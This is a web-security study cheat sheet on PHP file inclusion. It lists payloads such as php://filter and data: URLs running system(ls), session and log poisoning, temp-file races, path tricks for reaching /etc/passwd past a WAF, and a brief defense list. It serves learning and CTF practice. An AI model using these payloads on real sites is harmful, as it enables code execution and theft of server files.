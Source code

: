# File Inclusion  
PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  
*  [LFI with PHP7 segfault](#lfi-with-php7-segmentfault)  

Gogs:  
*  [Inject path to session id](#inject-path-to-session-id)  
  
Conclusion:  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  

🍊Include Session in Hitcon CTF 2018 [ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html):  
`session.upload_progress.name` ➡️ create session file ➡️ filename: `sess_{PHPSESSID}`  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/burp_multipart.png)
As long as `PHP_SESSION_UPLOAD_PROGRESS` in POST of multipart/form-data and `session.upload_progress.enabled = On` (fortunately default is on), PHP session files would be created no matter `session.auto_start = 0`! Then to deal with the problem of `session.upload_progress.cleanup = On`, we need race condition.  
[hitcon 2018受虐笔记一:one-line-php-challenge 学习 by wonderkun](http://wonderkun.cc/index.html/?cat=1)  
[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  

4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include temp file (lfi with phpinfo)  
Just like the picture in [LFI with PHP7 segfault](#lfi-with-php7-segmentfault), PHP handles `enctype="multipart/form-data"` with following steps. When output from PHP script is larger than output buffer setting (which is always 4096), the partial content would change to `Transfer-Encoding: chunked`. Therefore, what we need to do is to delay the execution time of PHP script. The reason for using phpinfo is getting the tmp file name from `$_FILE`.  

6. include `/proc/self/environ`: php requires to run as CGI  

7. include uploaded file: need uploading functionality on website itself   

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# LFI with PHP7 SegmentFault  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/php_tmp.PNG)  
In the environment of `ubuntu16+php7.1`:  
```
php://filter/string.strip_tags/resource=xxx
```  
will cause to segmentation fault. Therefore, the tmp file cannot be removed because PHP is crashed, then we can use bruteforce to include the tmp file. With analysis, the bug of PHP is due to the inference of null pointer.  
[Script by @Wang YiHang](https://www.jianshu.com/p/dfd049924258)  

# Inject path to session id
[CVE-2018-18925](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925)  
You can try to include the other file as fake session. This is also based on the condition that the library parse the session id in a wrong way.  

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)  
3. [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/?fbclid=IwAR0537cUHx0RuYwbjdVLudlitdkofr5HHhqMcafXW3aoWqlUoJ_lMRAsnk8)
